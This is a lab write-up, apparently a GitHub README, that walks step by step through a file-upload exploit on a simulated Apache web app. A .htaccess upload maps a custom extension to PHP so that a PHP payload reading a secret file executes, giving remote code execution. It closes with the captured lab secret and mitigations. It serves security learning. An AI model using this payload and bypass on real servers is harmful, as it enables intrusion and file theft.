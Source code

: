 ````markdown
# 🛡️ File Upload Exploitation – Apache .htaccess Bypass

This project documents a successful file upload exploitation against a simulated vulnerable web application.  
The lab demonstrates how weak file upload validation can be bypassed to achieve **remote code execution (RCE)** using an `.htaccess` trick on an Apache server.


```
## 📑 Table of Contents
1. [Lab Overview](#lab-overview)  
2. [Exploitation Walkthrough](#exploitation-walkthrough)  
   - [Normal File Upload](#normal-file-upload)  
   - [Crafting Malicious Payload](#crafting-malicious-payload)  
   - [Identifying Server](#identifying-server)  
   - [Uploading .htaccess](#uploading-htaccess)  
   - [Uploading Exploit with New Extension](#uploading-exploit-with-new-extension)  
   - [Triggering RCE](#triggering-rce)  
3. [Security Impact](#security-impact)  
4. [Recommended Mitigations](#recommended-mitigations)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Secret Obtained](#secret-obtained)  
7. [Takeaways](#takeaways)  
```


## 📖 Lab Overview
- **Target:** Web application with avatar upload functionality  
- **Vulnerability:** File upload restrictions + Apache `.htaccess` misconfiguration  
- **Impact:** Remote Code Execution → Secret file disclosure  

---

## ⚙️ Exploitation Walkthrough

### 1. Normal File Upload
- Logged in and uploaded an image as the avatar.  
- Observed the image was fetched with:

```http
GET /files/avatars/<YOUR-IMAGE>
````

### 2. Crafting Malicious Payload

Created a PHP file `exploit.php` to read Carlos’s secret:

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

* Attempt to upload failed → `.php` extension not allowed.

### 3. Identifying Server

The response from `POST /my-account/avatar` revealed:

```http
Server: Apache/2.4.41 (Ubuntu)
```

* Apache + mod\_php hinted at an `.htaccess` bypass.

### 4. Uploading `.htaccess`

Modified the upload request in Burp Repeater:

```text
- Changed filename → .htaccess
- Content-Type → text/plain
- File contents:
AddType application/x-httpd-php .l33t
```

* Uploaded successfully ✅

### 5. Uploading Exploit with New Extension

Reused the upload request:

```text
- Changed filename → exploit.l33t
- File contents → PHP payload
```

* Uploaded successfully ✅

### 6. Triggering RCE

Requested:

```http
GET /files/avatars/exploit.l33t
```

* Server executed PHP → Secret was disclosed:

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 🚨 Security Impact

* **Severity:** 🔴 High
* **Risk:** Arbitrary PHP execution on the server
* **Impact:** Unauthorized file disclosure, possible full system compromise

---

## 🔒 Recommended Mitigations

* Disable `.htaccess` overrides:

```apache
AllowOverride None
```

* Store uploads outside web root
* Strict MIME-type & extension validation (both client + server)
* Sanitize uploaded content before saving

---

## ✅ Proof of Exploit

<img width="957" height="1079" alt="Proof of exploit in Burp Repeater" src="https://github.com/user-attachments/assets/f15c03db-3747-4761-9709-d0349b92cd41" />

---

## 🗝️ Secret Obtained

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 📚 Takeaways

This lab highlights how **misconfigured servers + weak upload validation** can escalate into RCE.
Preventing such attacks requires **defense-in-depth**: secure configs, strict validation, and isolating user uploads.

```

---
